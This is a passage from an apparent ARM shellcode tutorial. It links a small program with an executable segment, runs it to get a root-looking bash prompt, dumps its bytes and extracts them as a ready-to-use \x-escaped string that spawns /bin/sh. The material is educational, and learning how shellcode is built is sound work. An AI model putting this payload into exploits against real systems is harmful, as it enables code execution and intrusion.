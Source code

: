 If we link our code with the **-N** option and then look at the **readelf** dump

```
$ ld -N shell.o -o shell

$ readelf -l shell

Elf file type is EXEC (Executable file)
Entry point 0x10054
There is 1 program header, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  LOAD           0x000054 0x00010054 0x00010054 0x0001c 0x0001c RWE 0x4

 Section to Segment mapping:
  Segment Sections...
   00     .text


```

We can see the Flags are now ‘RWE’.

And if we run the program

```
$ ./shell
bash-4.4# exit
exit


```

Now dump the shellcode and check for 0x00’s

```
# objcopy -O binary shell.o shell.bin
# hexdump -C shell.bin 

00000000  01 10 8f e2 11 ff 2f e1  02 a0 49 40 52 40 c1 71  |....../...I@R@.q|
00000010  0b 27 01 df 2f 62 69 6e  2f 73 68 41              |.'../bin/shA|
0000001c


```

We can use [hexdump(1)](http://man7.org/linux/man-pages/man1/hexdump.1.html) to extract out the bytes into a usable format.

```
$ hexdump -v -e '"\\\x" 1/1 "%02x"' shell.bin ; echo
\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc1\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x41


```
